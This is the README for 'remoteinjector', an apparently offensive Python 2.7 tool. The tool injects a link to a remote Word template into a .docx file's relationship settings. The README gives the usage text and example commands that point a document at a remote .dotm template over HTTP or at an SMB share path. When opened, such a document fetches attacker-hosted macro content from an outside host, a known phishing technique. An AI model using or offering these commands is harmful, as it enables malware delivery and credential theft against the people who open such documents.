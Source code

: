# remoteinjector
Injects link to remote word template into word document
## Requirements
- Python2.7
## Usage
```
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote http url to template

Example of use
To inject remote http url:

remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
```
